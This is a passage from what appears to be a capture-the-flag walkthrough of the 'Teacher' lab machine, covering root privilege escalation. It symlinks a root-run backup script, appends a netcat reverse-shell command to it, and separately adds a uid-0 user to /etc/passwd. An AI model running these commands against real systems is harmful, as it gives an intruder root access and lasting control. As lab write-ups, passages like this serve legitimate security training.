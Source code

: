Create the link:

    
    
    giovanni@teacher:~/work/tmp$ ln -s /usr/bin/backup.sh 
    

Wait a minute:

![](https://0xdfimages.gitlab.io/img/teacher-chmod.gif)

Now I can add a shell to the script:

    
    
    giovanni@teacher:~/work/tmp$ echo "nc -e /bin/bash 10.10.14.3 443" >> /usr/bin/backup.sh
    

Wait a minute, and get a shell:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.153.
    Ncat: Connection from 10.10.10.153:46014.
    id
    uid=0(root) gid=0(root) groups=0(root)
    

And `root.txt`:

    
    
    root@teacher:~# cat root.txt 
    4f3a83b4...
    

#### /etc/passwd

Rather than getting another callback, what if I just get access to
`/etc/passwd`:

    
    
    giovanni@teacher:~/work/tmp$ ln -s /etc/passwd
    

Now I can add myself as root user. First, create a hash:

    
    
    root@kali# openssl passwd -1 -salt xyz password
    $1$xyz$cEUv8aN9ehjhMXG/kSFnM1
    

Now add myself:

    
    
    giovanni@teacher:~/work/tmp$ echo 'oxdf:$1$xyz$cEUv8aN9ehjhMXG/kSFnM1:0:0:pwned:/root:/bin/bash' >> /etc/passwd
    

Now I just `su` to my new user, who is root:
